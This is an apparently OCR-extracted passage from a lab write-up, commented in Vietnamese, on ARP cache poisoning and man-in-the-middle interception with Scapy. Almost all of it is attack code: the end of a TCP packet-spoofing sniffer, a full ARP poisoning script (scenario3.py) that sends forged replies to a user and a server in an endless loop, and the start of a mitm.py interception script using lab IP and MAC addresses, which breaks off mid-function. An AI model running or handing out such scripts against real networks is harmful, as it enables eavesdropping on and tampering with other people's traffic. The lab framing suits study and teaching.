 ```py
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)

pkt = sniff(iface='eth0', filter='tcp',prn=spoof_pkt)
```

- `scenario3.py`
```py
#!/usr/bin/python3
from scapy.all import *
import time
 
# Định nghĩa thông tin IP và MAC cho từng máy
USER_IP = '<User_IP>'
USER_MAC = '<User_MAC>'
SERVER_IP = '<Server_IP>'
SERVER_MAC = '<Server_MAC>'
ATTACKER_MAC = '<Attacker_MAC>'
 
# Hàm gửi các gói ARP giả mạo liên tục
def send_arp_poison():
    # Gói tin giả mạo gửi đến User, giả danh địa chỉ IP của Server
    pkt_to_user = Ether(src=ATTACKER_MAC, dst=USER_MAC) / ARP(op=2, psrc=SERVER_IP, pdst=USER_IP, hwsrc=ATTACKER_MAC, hwdst=USER_MAC)
 
    # Gói tin giả mạo gửi đến Server, giả danh địa chỉ IP của User
    pkt_to_server = Ether(src=ATTACKER_MAC, dst=SERVER_MAC) / ARP(op=2, psrc=USER_IP, pdst=SERVER_IP, hwsrc=ATTACKER_MAC, hwdst=SERVER_MAC)
 
    while True:
        # Gửi gói tin giả mạo tới cả User và Server
        sendp(pkt_to_user, verbose=False)
        sendp(pkt_to_server, verbose=False)
        time.sleep(0.5)  # Gửi gói tin giả mạo mỗi 0.5 giây để duy trì tấn công
 
# Chạy hàm tấn công
send_arp_poison()


```

### 2. Script attack
- `mitm.py`
```py
#!/usr/bin/python3
from scapy.all import *
import re

USER_IP = '10.61.7.10'
USER_MAC = '02:42:0a:3d:07:0a'
SERVER_IP = '10.61.7.20'
SERVER_MAC = '02:42:0a:3d:07:14'

def spoof_pkt(pkt):

	if pkt[IP].src == USER_IP and pkt[IP].dst == SERVER_IP:

		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)

		if pkt[TCP].payload:
```